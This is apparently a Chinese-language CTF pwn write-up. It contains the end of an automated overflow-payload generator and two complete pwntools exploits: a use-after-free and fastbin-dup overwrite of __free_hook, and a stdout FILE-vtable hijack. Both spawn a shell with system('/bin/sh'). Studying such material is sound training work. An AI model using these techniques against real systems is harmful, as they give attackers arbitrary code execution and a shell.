    if b'your gift' in rodata:
        pos = core.find('movabs rax, ')
        core = core[pos+12:]
        pos = core.find('rax, [rbp-')
        core = core[pos+10:]
        pos = core.find(']')
        sz = int(core[0:pos], 16) - 8
        pos = core.find('movabs rax, ')
        core = core[pos+12:]
        pos = core.find('\n')
        v = int(core[0:pos], 16)
        # print(sz)
        payload += b'\x00'*sz + p64(v)
    elif b'my gift' in rodata:
        pos = core.find('ax, 0x')
        core = core[pos+6:]
        pos = core.find('ax, 0x')
        core = core[pos+6:]
        pos = core.find('ax, 0x')
        core = core[pos+6:]
        pos = core.find('\n')
        sz = int(core[0:pos], 16)
        payload += (str(0x402000+rodata.find(b'LEVEL PASS')).encode() + b'\n') * (sz+1)
        payload += b'a\n'
    elif b'%lld' in rodata:
        pos = core.find('movabs rax, ')
        core = core[pos+12:]
        pos = core.find('\n')
        v2 = int(core[0:pos], 16)
        pos = core.find('ax, 0x')
        core = core[pos+4:]
        pos = core.find('ax, 0x')
        core = core[pos+4:]
        pos = core.find('ax, 0x')
        core = core[pos+4:]
        pos = core.find('\n')
        c = int(core[0:pos], 16)
        # print(hex(v2))
        # print(hex(c))
        num = decrypt(v2, c)
        # print(num)
        # print(hex(num))
        if num > 0x7FFFFFFFFFFFFFFF:
            # 使用二补码转换：负数值 = 目标值 - 2^64
            num = num - (1 << 64)
        payload += str(num).encode() + b'\n'
    elif 'backdoor' in elf.symbols:
        pos = core.find('[rbp-')
        core = core[pos+5:]
        pos = core.find(']')
        sz = int(core[0:pos], 16)
        payload += b'A'*(sz+8) + p64(elf.sym['backdoor']) + b'a\n'

    payload += b'EOF\n'

    io.send(payload)
    log.success(i)

    # p = process(f'./bins/chal{i}')
    # # gdb.attach(p, 'b core\nc\n')
    # p.send(payload)
    # p.interactive()

io.interactive()

```


---


## note

### 操作内容：

有无限制UAF漏洞

（这题想复杂了，UAF直接改tcache链表就能直接申请到__free_hook，不过如果没有edit功能的话应该可以这么做）

用unsorted bin泄露libc基址

申请9个小块，释放7个填满tcache，然后fastbin dup改__free_hook

```python
from pwn import *

context.arch = 'amd64'
# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

# p = process('./pwn')
p = remote('xxx', xxx)

def malloc(index, size, content):
    p.sendlineafter(b'input your choice >>> ', b'1')
    p.sendlineafter(b'input index: ', str(index).encode())
    p.sendlineafter(b'input size: ', str(size).encode())
    p.sendafter(b'input your note: ', content)

def edit(index, content):
    p.sendlineafter(b'input your choice >>> ', b'2')
    p.sendlineafter(b'input index: ', str(index).encode())
    p.sendafter(b'input your new note: ', content)

def show(index):
    p.sendlineafter(b'input your choice >>> ', b'3')
    p.sendlineafter(b'input index: ', str(index).encode())

def free(index):
    p.sendlineafter(b'input your choice >>> ', b'4')
    p.sendlineafter(b'input index: ', str(index).encode())

malloc(14, 0x500, b"123")
malloc(15, 0x70, b"123")
# malloc(3, 0x70, b"123")
free(14) # unsorted bin
show(14)

p.recvuntil(b'now, show the note: ')
addr = u64(p.recv(6).ljust(8, b'\x00'))
log.success(f"addr -> {hex(addr)}")

for i in range(9): # 0-8
  malloc(i, 0x18, b"aaaa")

for i in range(7): # 0-6
  free(i)

free(7)
free(8)
free(7)
  
for i in range(7): # 0-6
  malloc(i, 0x18, b"aaaa")

malloc(8, 0x18, p64(addr+0x1C48)) # __free_hook

malloc(9, 0x18, b'/bin/sh')

malloc(10, 0x18, b'AAAAA')

malloc(11, 0x18, p64(addr-3786880)) # system

# gdb.attach(p)

free(9)

p.interactive()
```


---


## stdout

### 操作内容：

读入0xF0大小进stdout

对vtable偏移，使得原本调用__xsputn变成

_IO_wfile_jumps -> _IO_wfile_seekoff -> _IO_switch_to_wget_mode

_lock位置要可读可写（这里用了原来的）

 _IO_wfile_seekoff取`[fp + 0xa0]`作为`rax1`

这里需要满足几个条件

①

`[rax + 0x10]`位置小于`[rax + 8]`位置

②

`[rax + 0x20]`位置大于`[rax + 0x18]`位置

_IO_switch_to_wget_mode取`[rax1 + 0xe0]`作为`rax2`

再call `[rax2 + 0x18]`存放的函数地址，`rdi`为fp，也就是_flags

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']

p = process('./FILE')
# p = remote('39.106.48.123', 31448)
elf = ELF('./FILE')
libc = ELF('./libc.so.6')

p.recvuntil(b'The file You are writing to is: ')
stdout_addr = int(p.recvline(keepends=False).decode(), 16)
log.success(hex(stdout_addr))
libc_base = stdout_addr - libc.sym['_IO_2_1_stdout_']
log.success(f'libc_base -> {hex(libc_base)}')

# libc_base + next(libc.search(b'/bin/sh'))
payload = p64(0x68732f6e69622f) # _flags = rdi
payload += p64(0) # read ptr
payload += p64(1) # read end
payload += p64(0) # read base
payload += p64(2) # write base
payload += p64(3) # write ptr
payload += p64(0) # write end
payload += p64(0) # buf base
payload += p64(0) # buf end
payload += p64(0) # save base
payload += p64(0) # backup base
payload += p64(libc_base + libc.sym['system']) # save end = call addr = "rax2 + 0x18"
payload += p64(0) # _markers
payload += p64(0) # _chain
payload += p64(0) # _fileno
payload += p64(0) # _old_offset
payload += p64(0) # _cur_column
payload += p64(libc_base + 0x21B730) # _lock
payload += p64(0) # _offset
payload += p64(0) # _codecvx
payload += p64(stdout_addr + 0x8) # _wfile_data rax1 "0xa0"
payload += p64(0) # _freers_list
payload += p64(0) # _freers_buf
payload += p64(0) # __pad5
payload += p32(0) # _mode
payload += b'\x00'*20 # _unused2
payload += p64(libc_base + libc.sym['_IO_wfile_jumps'] + 0x10)
payload += p64(0) # padding
payload += p64(stdout_addr + 0x40) # rax2

# gdb.attach(p, 'b _IO_wfile_seekoff\n')

p.send(payload)

p.interactive()
```